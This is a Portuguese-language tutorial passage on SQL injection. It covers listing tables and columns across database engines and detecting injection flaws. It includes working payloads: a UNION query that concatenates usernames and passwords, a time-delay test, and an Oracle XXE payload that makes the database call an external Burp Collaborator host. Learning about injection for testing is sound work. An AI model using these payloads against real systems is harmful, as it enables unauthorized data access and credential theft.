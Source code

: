 ## Extra

* Para exibir a lista de tabelas do DB \(exceto DBs da Oracle\): 

  ```sql
  SELECT * FROM information_schema.tables
  ```

-Para exibir lista de colunas de uma tabela:

```sql
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

* Em DBs da Oracle, usa-se:

  ```sql
  SELECT * FROM all_tables -- listar tabelas
  SELECT * FROM all_tab_columns WHERE table_name = 'nome_da_tabela' -- listar colunas
  ```

* Em DBs da Oracle, um `SELECT` sempre deve conter um `FROM <nome_da_tabela>`. Para isso, uma tabela "padrão" para se usar é `DUAL`
* Para concatenar resultados \(colunas diferentes\) em uma coluna, pode-se usar o `||`: `' UNION SELECT username || '~' || password FROM users -- -` \(ORACLE e POSTGRE\) ou `'foo'+'bar'` \(MICROSOFT\) ou `'foo' 'bar'` e `CONCAT('foo','bar')` \(MYSQL\)

_Para ver mais, procure por "SQL Injection Cheat Sheets" como_ [_essa_](https://portswigger.net/web-security/sql-injection/cheat-sheet) _ou_ [_essa_](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)_._

## Como detectar uma SQL Injection?

Ferramentas como Burpsuite ou Sqlmap são capazes de detectar diversas vulnerabilidades relacionadas à SQL Injection de forma automática, mas também podemos realizar alguns testes simples para verificar se há falhas no sistema responsável pela comunicação com o banco de dados. Alguns desses testes são:

* Enviar aspas simples \(`'`\);
* Enviar condicionais como `OR 1=1` e `OR 1=2`;
* Enviar _payloads_ com _triggers_ de tempo \(_delay_\) como `'; IF (1=2) WAITFOR DELAY '0:0:10'--` e analisar o tempo de resposta;
* Enviar _payloads_ de OAST \([Out-of-band Application Security Testing](https://portswigger.net/blog/oast-out-of-band-application-security-testing)\) que causam certos _triggers_ e monitorar interações com sistemas externos.
  * Já que não explicamos sobre isso, segue um exemplo:

    ```sql
      '||(select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE root [ <!ENTITY % ekiom SYSTEM "http://pibw1f1nhjh3vpkgtx6mtfnt8kea2eq8dy1n.burpcollab'||'orator.net/"> %ekiom;]>'),'/l') from dual)||' 
      -- conecta com um servidor de colaborador do Burp (faz uso de XML/DTD)
    ```

## Links externos

* [Portswigger](https://portswigger.net/web-security/sql-injection)
* [OWASP](https://owasp.org/www-community/attacks/SQL_Injection)
* [Acunetix](https://www.acunetix.com/websitesecurity/sql-injection/)
